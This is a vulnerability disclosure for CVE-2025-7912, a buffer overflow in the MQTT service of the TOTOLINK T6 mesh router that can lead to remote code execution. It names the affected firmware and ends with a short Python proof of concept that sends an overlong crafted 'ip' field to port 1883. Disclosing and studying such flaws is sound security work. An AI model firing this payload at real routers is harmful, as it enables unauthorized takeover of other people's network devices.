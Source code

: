 # [CVE-2025-7912](https://vuldb.com/?id.317027)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability in `MQTT` service that lead to RCE.

# Vulnerability details

The `T6` routers open `MQTT` service and listen on port `1883`. In function `recvSlaveUpgstatus`. The `s` buffer is 68 bytes, and the `sprintf` doesn't check for the length of input.

![](6/1.png)

An attacker can implement a RCE attack by sending a malicious `MQTT` packet.

![](6/2.png)

# POC

```python
import paho.mqtt.client as mqtt

payload = b"A" * 71 + b"\x37\x33\x33\x13"

mqtt_data = b'''
    {
        "status":"1",
        "ip":"%s"
    }
''' % payload

client = mqtt.Client()
client.connect("192.168.0.1", 1883, 60)
client.publish("totolink/router/recvSlaveUpgstatus", mqtt_data)
```




